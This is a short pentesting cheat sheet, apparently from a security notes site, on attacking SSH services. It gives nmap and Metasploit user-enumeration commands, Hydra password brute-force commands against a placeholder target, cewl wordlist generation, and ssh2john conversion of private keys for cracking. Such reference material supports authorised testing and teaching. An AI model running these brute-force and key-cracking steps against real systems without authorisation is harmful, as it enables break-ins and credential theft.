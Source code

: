 ```yaml
---
title: SSH (Secure Shell) Pentesting
description: SSH is a cryptographic network protocol for operating network services securely over an unsecured network. A default port is 22.
tags:
    - Cryptography
    - Network
    - Privilege Escalation
refs:
    - https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
date: 2024-06-15
draft: false
---
```


## Enumeration

```sh
nmap --script ssh-brute -p 22 <target-ip>
nmap --script ssh-auth-methods --script-args="ssh.user=username" -p 22 <target-ip>
nmap --script ssh-* -p 22 <target-ip>

# User enumeration
msfconsole
msf> use auxiliary/scanner/ssh/ssh_enumusers
```

### Brute Force Credentials

```sh
# -t: tasks
hydra -l username -P passwords.txt <target-ip> ssh -t 4
hydra -L usernames.txt -p password <target-ip> ssh -t 4

# Specific ports
hydra -l username -P passwords.txt -s 2222 <target-ip> ssh -t 4
hydra -l username -P passwords.txt ssh://<target-ip>:2222 -t 4
```

If the target host opens port 80 or 443, you can generate wordlist from the contents of the website then use Hydra.

```sh
cewl http://<target-ip> > wordlist.txt
```

### Crack SSH Private Key

First of all, you need to format the private key to make John to recognize it.

```sh
ssh2john private_key.txt > hash.txt
# or
python2 /usr/share/john/ssh2john.py private_key.txt > hash.txt
```
